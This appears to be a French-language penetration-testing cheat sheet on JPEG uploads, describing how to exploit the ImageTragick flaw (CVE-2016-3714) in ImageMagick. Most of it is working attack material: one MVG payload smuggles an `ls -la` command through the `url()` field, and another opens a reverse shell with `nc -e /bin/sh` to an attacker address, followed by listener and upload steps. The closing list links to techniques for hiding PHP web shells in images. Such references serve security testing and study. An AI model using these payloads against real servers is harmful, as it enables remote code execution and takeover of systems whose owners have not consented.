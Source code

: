 # JPEG

**Facteur de risque** : RCE

**Extensions** : `.jpg`, `.jpeg`

**Type MIME** : image/jpeg

**Description** : 

**Joint Photographic Experts Group** ou **JPG** est un format d'image

## Sommaire

- ImageTragick

## RCE : ImageTragick CVE-2016–3714

<img src="logo_imagetragick.png" title="" alt="" height="200">

**ImageMagick** est un logiciel utilisé pour créer, modifier (redimensionner), convertir ou afficher des fichiers d'images dans un très grand nombre de formats.

ImageMagick possède plusieurs failles, donc une qui permet d'exécuter du code arbitraire à distance : https://imagetragick.com

### Pré-requis

- ImageMagick <= 6.9.3-9 est utilisé par le serveur web

### Exploitation

1. Copier le code suivant, qui permet de lister le répertoire :
   
   ```shell
   push graphic-context
   viewbox 0 0 640 480
   fill 'url(https://example.com/image.jpg";|ls "-la)'
   pop graphic-context
   ```
   
    La fonction `url()` est censé contenir l'URL d'une image (`https://example.com/image.jpg`). Ici on injecte le code `";|ls "-la` pour lister le répertoire.

2. Téléverser ce fichier sur l'application.

Comme l'exploitation se passe au moment du téléversement, l'utilisateur peut ne pas voir pas le résultat des commandes. Mais un **reverse shell** est possible !

1. Copier le code suivant :
   
   ```shell
   push graphic-context
   viewbox 0 0 640 480
   fill 'url(https://example.com/image.jpg";|nc -e /bin/sh IP_ADDRESS "PORT)'
   pop graphic-context
   ```
   
   La fonction `url()` est censé contenir l'URL d'une image (`https://example.com/image.jpg`). Ici, on injecte le code `";|nc -e /bin/sh IP_ADDRESS_HERE "PORT_HERE` pour avoir un reverse shell.

2. Remplacer `IP_ADRESS` et `PORT` dans le code (faire attention aux guillemets présents), puis enregistrer sous forme d'image (**rce.jpg**). Par exemple :
   
   ```shell
   fill 'url(https://example.com/image.jpg";|nc -e /bin/sh 127.0.0.1 "1234)'
   ```

3. Écouter votre port :
   
   ```shell
   nc -lnvp 1234
   ```

4. Téléverser ce fichier sur l'application. 
   Au moment du téléversement, ImageMagick va traiter l'image, et exécuter en le code.

## References

- https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/
- ImageTragick : 
  - https://imagetragick.com

## Todo

- Embedding PHP Shell on PNG : https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/
- Upload .jpg file containing a Flash object - victim experiences Cross-site Content Hijacking.
  - [Even uploading a JPG file can lead to Cross-Site Content Hijacking (client-side attack)! | Soroush Dalili (@irsdl) &#8211; سروش دلیلی](https://soroush.secproject.com/blog/2014/05/even-uploading-a-jpg-file-can-lead-to-cross-domain-data-hijacking-client-side-attack/)
- [Throwback - Smuggling PHP Shells Inside Images](https://web.archive.org/web/20150222213740/http://rotlogix.com/2014/08/01/throwback-smuggling-php-shells-inside-images/)
